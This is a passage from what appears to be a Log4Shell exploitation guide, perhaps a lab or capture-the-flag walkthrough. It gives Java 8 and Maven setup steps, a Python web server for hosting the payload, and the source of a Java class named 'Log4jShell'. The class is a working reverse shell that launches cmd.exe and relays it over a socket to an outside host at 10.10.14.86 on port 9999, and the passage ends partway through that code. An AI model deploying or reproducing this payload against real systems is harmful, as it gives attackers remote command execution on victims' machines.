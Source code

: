 ```sh
sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_202/bin/javac" 1
```

Then run `java -version` and if the version displayed is not `1.8.0`, then run the following command:

```sh
sudo update-alternatives --config java
```

Do the same with `javac -version` and ensure the version selected is `1.8.0`, and if it isn't, then run the following command:

```sh
sudo update-alternatives --config javac
```

Then install maven:

```sh
sudo apt install maven
```

### Web Server

Next, setup the web server.

```sh
python3 -m http.server <port>
```

### Payload

Create the following file in the same directory as where you're running the web server and name it `Log4jShell.java`.

```java
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;
public class Log4jShell {
    public Log4jShell() throws Exception {
        String host="10.10.14.86";
        int port=9999;
        String cmd="cmd.exe";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
```